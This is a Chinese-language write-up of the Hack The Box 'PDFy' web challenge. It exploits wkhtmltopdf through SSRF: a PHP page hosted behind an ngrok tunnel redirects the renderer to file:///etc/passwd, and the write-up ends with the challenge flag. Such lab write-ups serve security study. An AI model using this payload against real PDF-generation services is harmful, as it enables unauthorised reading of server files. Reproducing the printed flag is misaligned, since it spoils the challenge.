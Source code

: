 # [easy] PDFy   
 --- 
[Hack The Box](https://app.hackthebox.com/challenges/PDFy)    
 --- 
一開始先嘗試了幾個url   
- [https://google.com](https://google.com) → 成功   
- machine URL→ 沒東西   
- 隨便一個網站的URL → 成功   
![image.png](files/image_a.png)    
   
Google `WKHTMLTOPDF vulnerability` 和 `WKHTMLTOPDF 漏洞` 找到以下三個有幫助的文章   
![image.png](files/image_4.png)    
1. [wkhtmltopdf File Inclusion Vulnerability - Virtue Security](https://www.virtuesecurity.com/kb/wkhtmltopdf-file-inclusion-vulnerability-2/)    
2. [wkhtmltopdf SSRF \| Exploit Notes](https://exploit-notes.hdks.org/exploit/web/security-risk/wkhtmltopdf-ssrf/)    
3. [中央大學eeclass系統 from harmless IDOR and information leakage to SSRF to LFI](https://zeroday.hitcon.org/vulnerability/ZD-2021-00781)    
   
這一步卡很久，因為我到後來才發現如果要insert PHP code，檔案要存為php檔而不是html   
```
<!DOCTYPE html>
<html>
	<head>
		<?php header('location:file:///etc/passwd') ?>
	</head>
	<body>
	</body>
</html>
```
我一直沒辦法注入php code，後來才發現是檔案類型錯誤，code變成comment了   
![image.png](files/image_i.png)    
   
再來就是把local run起來的server，透過ngrok讓外網可以連上   
這裡的tips是用tcp protocol而不是http，在討論區看到有人提示用tcp就不會像http一樣被redirect干擾   
![image.png](files/image_y.png)    
   
用http protocol之後直接搜尋URL，會發現因為有一個redirect頁面，所以web轉pdf的時候php code不會被觸發   
![image.png](files/image.png)    
![image.png](files/image_q.png)    
   
Ngrok轉接好之後，直接在machine上面的搜尋欄位查詢我們架好的php網站就可以了   
`http://0.tcp.jp.ngrok.io:15455/test.php`    
![image.png](files/image_v.png)    
```
# FLAG
HTB{pdF_g3n3r4t1on_g03s_brrr!}
```
   

